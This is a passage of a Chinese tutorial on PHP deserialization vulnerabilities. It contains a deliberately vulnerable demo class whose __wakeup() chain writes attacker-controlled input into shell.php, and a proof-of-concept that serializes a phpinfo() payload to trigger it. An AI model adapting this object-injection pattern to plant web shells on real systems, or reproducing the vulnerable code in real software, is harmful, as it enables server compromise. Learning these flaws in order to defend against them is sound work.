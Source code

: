 这里定义了 $data 和 $filename，然后序列化字符串后存储到 serialized.txt 文件中，序列化字符串：



然后运行 demo 代码，会在同目录下生成一个 poc.php



反序列化漏洞的利用
1.利用构造函数等

php 在使用 unserialize() 后会导致 __wakeup() 或 __destruct() 的直接调用，中间无需其他过程。因此最理想的情况就是一些漏洞/危害代码在 __wakeup() 或 __destruct() 中，从而当我们控制序列化字符串时可以去直接触发它们。

但是如果在反序列化的过程中，在 __wakeup() 或 __destruct() 不存在可以利用的恶意代码呢。那又该如何呢，其实吧我觉得反序列化漏洞，就是类似于类似于 PWN 中的 ROP，有时候反序列化一个对象时，由它调用的 __wakeup() 中又去调用了其他的对象，由此可以溯源而上，利用一次次的 “gadget” 找到漏洞点。

``` 
<?php
class pocdemo{
    function __construct($test){
        $fp = fopen("shell.php","w") ;
        fwrite($fp,$test);
        fclose($fp);
    }
}
class l1nk3r{
    var $test = '123';
    function __wakeup(){
        $obj = new pocdemo($this->test);
    }
}
$test = file_get_contents('./ser.txt');
unserialize($test);
require "shell.php";
?>
```
这里代码主要是通过 get 方法通过 test 传入序列化好的字符串，然后在反序列化的时候自动调用 __wakeup() 函数，在 __wakeup()函数中通过 new pocdemo() 会自动调用对象 pocdemo 中的 __construct()，从而把 <?php phpinfo(); ?> 写入到 shell.php 中。

poc 代码：

``` 
<?php
class l1nk3r{
    var $test = '<?php phpinfo(); ?>';
    function __wakeup(){
        $obj = new pocdemo($this->test);
    }
}
$ser = new l1nk3r();
$result = serialize($ser);
print $result;
file_put_contents('./ser.txt',$result);
?>
```
